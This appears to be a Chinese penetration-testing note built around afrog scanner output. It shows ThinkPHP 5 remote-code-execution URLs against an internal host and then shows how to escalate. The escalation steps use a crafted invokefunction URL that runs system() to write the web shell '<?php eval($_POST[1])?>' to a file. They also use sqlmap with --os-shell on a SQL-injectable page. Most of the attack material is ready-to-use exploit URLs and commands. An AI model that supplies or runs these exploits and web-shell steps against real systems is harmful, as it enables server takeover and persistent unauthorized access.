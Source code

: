 ```

|       A F 🐸 O G      |       3.0.5/0.3.55    |       Bring color to life

[INF] Ceyeio is not configured
[ERR] Using OOB Server: ceyeio is not vaild
001 05-16 09:29:49 thinkphp5-controller-rce CRITICAL http://10.3.4.123/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
002 05-16 09:29:50 thinkphp-5022-5129-rce CRITICAL http://10.3.4.123/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
[==================================================>] 100% (1414/1414), 1m6s
```

通过扫描结果找到EXP和POC

以afrog的结果为例

```
http://10.3.4.123/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
```

上面代码通过`&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91`输出了`a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91`
通过修改`&vars[0]=printf`与`vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91`即可实现php代码执行


如何通过whoami到写木马

1、利用操作系统原生命令 `echo`


以上面的为例，执行 `echo '<?php eval($_POST[1])?>' > xxx.php` 即可写入shell

构造成url为


```
http://10.3.4.123/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo '<?php eval($_POST[1])?>' > xxx.php
```


2、利用php文件写入函数

```
fputs、fwrite、fopen
```

#### 例二

1、简单SQL注入（无绕过）直接用sqlmap减少操作

```
python sqlmap.py -u http://10.3.4.131/vlist.php?cid=1 --batch
```

2、如果存在sql注入，一是可以尝试获取数据库密码，而是尝试使用`--os-shell`进行文件写入

```
python3 sqlmap.py -u http://10.3.4.127/vlist.php?cid=1 --os-shell
```
